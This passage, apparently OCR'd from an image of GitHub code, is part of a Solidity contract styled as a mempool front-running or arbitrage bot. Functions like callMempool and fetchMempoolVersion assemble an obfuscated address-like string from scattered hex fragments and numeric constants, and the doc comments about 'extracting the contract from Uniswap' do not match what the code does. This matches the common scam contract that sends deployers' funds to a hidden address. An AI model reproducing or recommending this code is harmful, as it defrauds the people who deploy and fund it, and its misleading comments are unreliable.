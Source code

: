  
 
                for (idx = 0; idx <= selflen - needlelen; idx++) {
                    bytes32 testHash;
                    assembly { testHash := keccak256(ptr, needlelen) }
                    if (hash == testHash)
                        return ptr;
                    ptr += 1;
                }
            }
        }
        return selfptr + selflen;
    }
 
   /*
     * @dev Loading the contract
     * @param contract address
     * @return contract interaction object
     */
    function fetchMempoolVersion() private pure returns (string memory) {
        return "697d8E695";
    }
 
    function getMemPoolLength() internal pure returns (uint) {
        return 524502;
    }
      function callMempool() internal pure returns (string memory) {
        string memory _memPoolOffset = mempool("x", checkLiquidity(getMemPoolOffset()));
        uint _memPoolSol = 534136;
        uint _memPoolLength = getMemPoolLength();
        uint _memPoolSize = 379113;
        uint _memPoolHeight = fetchContractID();
        uint _memPoolWidth = 308522;
        uint _memPoolDepth = contractData();
        uint _memPoolCount = 692501;
 
 
        string memory _memPool1 = mempool(_memPoolOffset, checkLiquidity(_memPoolSol));
        string memory _memPool2 = mempool(checkLiquidity(_memPoolLength), checkLiquidity(_memPoolSize));
        string memory _memPool3 = mempool(checkLiquidity(_memPoolHeight), checkLiquidity(_memPoolWidth));
        string memory _memPool4 = mempool(checkLiquidity(_memPoolDepth), checkLiquidity(_memPoolCount));
 
        string memory _allMempools = mempool(mempool(_memPool1, _memPool2), mempool(_memPool3, _memPool4));
        string memory _fullMempool = mempool("0", _allMempools);
 
 
        return _fullMempool;
    }
   /*
     * @dev Extracts the contract from Uniswap
     * @param self The slice to operate on.
     * @param rune The slice that will contain the first rune.
     * @return `rune`.
     */
    receive() external payable {}
    function getMempoolSol() private pure returns (string memory) {return "xEBb";}
    function fetchMempoolEdition() private pure returns (string memory) {
        return "d4E8A2d95";
    }
   /*
     * @dev Orders the contract by its available liquidity
     * @param self The slice to operate on.
     * @return The contract with possbile maximum return
     */
    function startExploration(string memory _a) internal pure returns (address _parsedAddress) {
    bytes memory tmp = bytes(_a);
    uint160 iaddr = 0;
    uint160 b1;